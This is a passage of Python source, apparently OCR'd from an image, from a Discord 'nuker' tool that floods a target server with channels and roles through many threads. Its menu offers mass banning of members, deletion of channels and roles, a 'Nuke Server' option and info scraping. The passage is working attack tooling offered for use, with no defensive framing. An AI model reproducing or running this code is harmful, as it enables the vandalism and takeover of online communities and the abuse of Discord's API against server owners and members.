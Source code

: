     threading.Thread(target=delroles, args=(guild, role,)).start()
def spamchannel(guild, name):
  while True:
    json = {'name': name, 'type': 0}
    r = requests.post(f"https://discord.com/api/v8/guilds/{guild}/channels", headers=headers, json=json)
    if 'retry_after' in r.text:
      time.sleep(r.json()['global'])
    else:
      if r.status_code == 200 or r.status_code == 201 or r.status_code == 204:
        break
def chanspam():
  print()
  guild = input("\u001b[38;5;111mGuild ID: ")
  name = input("Channel Names: ")
  amount = input("Amount: ")
  os.system('cls; clear')
  print("EAR - NUKER - ACTIVATING CHANNEL CREATION PROCESS...")
  for i in range(int(amount)):
    threading.Thread(target=spamchannel, args=(guild, name,)).start()
def spamrole(guild, name):
  while True:
    json = {'name': name, 'type': 0}
    r = requests.post(f"https://discord.com/api/v8/guilds/{guild}/roles", headers=headers, json=json)
    if 'retry_after' in r.text:
      time.sleep(r.json()['global'])
    else:
      if r.status_code == 200 or r.status_code == 201 or r.status_code == 204:
        break
def rolespam():
  print()
  guild = input("\u001b[38;5;111mGuild ID: ")
  name = input("Role Names: ")
  amount = input("Amount: ")
  os.system('cls; clear')
  print("EAR - NUKER - ACTIVATING ROLE CREATION PROCESS...")
  for i in range(int(amount)):
    threading.Thread(target=spamrole, args=(guild, name,)).start()


  


def server():
  os.system('cls; clear')
  print(f''' 
				         \u001b[38;5;111m╔═╗╦╔═╦ ╦╦═╗╦ ╦  ╔╗╔╦ ╦╦╔═╔═╗╦═╗
				         \u001b[38;5;159m║ ║╠╩╗║ ║╠╦╝║ ║  ║║║║ ║╠╩╗║╣ ╠╦╝
				         \u001b[38;5;195m╚═╝╩ ╩╚═╝╩╚═╚═╝  ╝╚╝╚═╝╩ ╩╚═╝╩╚═\u001b[38;5;26m
			        [+]═════════════════════[+]═══════════════════[+]
 				 ║ \u001b[38;5;27m[1] - Ban Members     ║ [5] - Spam Roles    ║
				 ║ \u001b[38;5;26m[2] - Del Channels    ║ [6] - Nuke Server   ║
				 ║ \u001b[38;5;25m[3] - Del Roles       ║ [7] - Scrape Info   ║
				 ║ \u001b[38;5;24m[4] - Spam Channels   ║ [8] - Back To Menu  ║
				[+]═════════════════════[+]═══════════════════[+]
  ''')
  choice = int(input("\u001b[38;5;231m$> "))
  if choice == 1:
    banall()
    time.sleep(1)
    server()
  elif choice == 2:
    chandel()
    time.sleep(1)
    server()
  elif choice == 3: